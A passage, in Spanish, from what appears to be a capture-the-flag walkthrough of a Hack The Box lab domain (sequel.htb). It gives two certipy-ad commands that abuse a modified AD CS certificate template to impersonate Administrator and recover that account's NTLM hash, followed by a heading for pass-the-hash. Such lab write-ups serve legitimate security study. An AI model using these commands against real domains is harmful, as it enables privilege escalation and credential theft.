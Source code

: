 <figure><img src="../../../.gitbook/assets/3513_vmware_cCaeOaLkWL.png" alt=""><figcaption></figcaption></figure>

Procederemos a explotar el Template modificado para solicitar un certificado suplantando al usuario `Administrator`.

Al obtener el certificado `administrator.pfx`, procederemos a recuperar el hash NTLM del usuario `Administrator`, también se nos ha generado un archivo `administrator.ccache` que también podremos utilizar para autenticarnos.

{% code overflow="wrap" %}
```bash
certipy-ad req -u 'ca_svc@sequel.htb' -p 'Password01!' -ca sequel-DC01-CA -template DunderMifflinAuthentication -upn Administrator -dc-ip 10.10.11.51

certipy-ad auth -pfx administrator.pfx -domain sequel.htb
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/3514_vmware_SSfWzjiIeG.png" alt=""><figcaption></figcaption></figure>

### Pass-The-Hash on EvilWinRM

